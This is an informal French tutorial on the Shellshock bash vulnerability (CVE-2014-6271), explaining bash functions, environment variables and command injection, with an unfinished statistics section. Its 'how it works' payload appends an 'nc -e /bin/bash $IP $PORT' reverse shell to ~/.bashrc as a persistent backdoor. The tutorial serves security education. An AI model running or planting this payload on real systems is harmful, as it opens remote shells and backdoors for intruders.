 # La vulnérabilité Shellshock


[Shellshock](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271) est une vulnérabilité présente dans bash 4.3 et antérieur. Il s'agit d'une vulnérabilité logicielle qui se base sur de l'injection de commande en passant par les variables d'environement. C'est vachement cool car elle mène à une **bonne grosse RCE des familles**, donc c'est pas négligeable 😘.

## Statistiques

Quelques statistiques afin d'illustrer la portée et l'attention portée de la vulnérabilité.

![Stonks gif](https://media.giphy.com/media/YnkMcHgNIMW4Yfmjxr/giphy.gif)

Shellshock a beaucoup été à la mode quand elle est sortie, énormément de trafic a été généré par des botnets lors de tentatives d'exploitation de la vulnérabilité.

**Bon faut que je trouve des stats mais c'est un autre problème**

## Comment ça marche ?

![Thinking gif](https://media.giphy.com/media/lKXEBR8m1jWso/giphy.gif)

```shell
env _='() { echo "Yeah ma boi"; }; echo "nc -e /bin/bash $IP $PORT" >> ~/.bashrc;'; bash -c 'echo "Bonjour à tous"'
```

Là on force l'utilisateur à lancer un shell sur `$IP:$PORT` à chaque fois qu'il va ouvrir un shell, mais on peut immaginer d'innombrables autres scénarios d'attaque, de compromission de machine, ou de porte dérobée.

Pour comprendre le fonctionnement de cette payload, on va la prendre par étape.

### Les fonctions dans bash

Si vous n'êtes pas connaisseur, il est possible de créer des fonctions dans bash directement, la syntaxe est la suivante :

```shell
my_function () {
  echo "Hello"
}

# Ou plus explicitement

function my_function () {
  echo "Hello"
}
```

Pour l'exécuter on peut l'appeller de cette manière :

```shell
$ my_function
Hello
```

### Utiliser une variable d'environnement avec bash

Les variables d'environnement permettent de gérer pas mal de choses, mais principalement de passer des valeurs d'un programme à un autre, sans passer par des étapes compliquées.

> Note : les variables type `$PATH`, `$SHELL`, `$PWD`, `$TERM`... sont des variables d'environnement, utilisables par des programmes.

En bash :

```shell
$ env BoC='ovgr bh pbhvyyr'
$ env | grep BoC
BoC=ovgr bh pbhvyyr # On a bien notre nouvelle variable d'environnement

# On peut aussi déclarer une fonction :
$ env my_function='() { echo "aHR0cHM6Ly9ncGguaXMvMWEzWDV0UQ==" | base64 -d; }'
```

On peut même les utiliser dans un sous-shell :

```shell
$ env my_function='() { echo "aHR0cHM6Ly9ncGguaXMvMWEzWDV0UQ==" | base64 -d; }'; bash -c 'my_function;'
```

> L'utilisation de variables d'environnement dans des sous-shells a été supprimée depuis, mais si vous voulez quand même tester, Docker ou VM 😉

### Injection

La partie sympa de Shellshock, c'est qu'on pouvait injecter une commande à exécuter via les variables d'environnement, en ajoutant la commande à la suite de la déclaration d'une fonction :

```shell
$ env a='() { echo "This is my function"; }; echo "Not in the func"'; bash -c 'a;'
Not in the func # Ne devrait pas être appelé !
This is my function
```

![Mind blown gif](https://media.giphy.com/media/26ufdipQqU2lhNA4g/giphy.gif)

Donc ouais, Shellshock c'est quand même vachement cool 😎.

